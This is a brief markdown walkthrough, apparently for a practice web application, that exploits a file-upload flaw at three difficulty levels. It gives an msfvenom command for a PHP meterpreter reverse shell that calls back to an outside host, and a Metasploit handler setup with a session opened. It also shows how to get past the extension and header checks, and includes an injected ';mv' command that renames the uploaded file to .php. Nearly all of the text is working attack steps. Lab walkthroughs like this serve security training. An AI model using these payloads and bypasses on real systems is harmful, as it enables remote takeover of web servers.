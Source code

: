 # LOW
Upload a reverse shell php file, navigate to the file and it will exectue.

`msfvenom -p php/meterpreter/reverse_tcp lhost=1.2.3.4 lport=9999 -f raw`

```
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 1.2.3.4
msf exploit(handler) > set lport 9999
msf exploit(handler) > run
meterpreter > sysinfo
```

# MED
Add .jpeg to the reverse shell script filename.  Intercept the upload, change filename to .php.


# HIGH
Add a header to the .jpeg such as GIF98.  Use the command_injection.md to rename the file after upload.

`;mv /path/to/reverse.jpeg /path/to/reverse.php`
